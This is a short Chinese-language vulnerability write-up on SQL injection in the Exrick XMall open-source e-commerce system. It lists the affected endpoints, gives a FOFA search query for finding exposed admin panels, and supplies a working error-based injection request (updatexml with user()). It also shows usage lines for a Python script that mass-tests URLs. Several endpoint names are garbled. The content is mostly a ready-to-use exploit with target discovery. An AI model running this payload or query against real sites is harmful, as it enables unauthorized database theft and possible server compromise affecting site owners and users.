 # Exrick XMall 开源商城 SQL注入漏洞

### 1.漏洞描述

XMal 开源商城 itemlist./itemvistSearch,/svslog,lorderlist,/memmberlist、/meberlistremove等多处接口存在SQL注入漏洞，未经身份验证的攻击者可以利用 SQL注入漏洞获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 2.fofa语法

```
app="XMall-后台管理系统"
```

### 3.漏洞复现

```
GET /item/list?draw=1&order%5B0%5D%5Bcolumn%5D=1&order%5B0%5D%5Bdir%5D=desc)a+union+select+updatexml(1,concat(0x7e,user(),0x7e),1)%23;&start=0&length=1&search%5Bvalue%5D=&search%5Bregex%5D=false&cid=-1&_=1679041197136 HTTP/1.1
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719830143304-395af136-6b1e-45b1-9ac8-884d6a1c3e38.png)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```

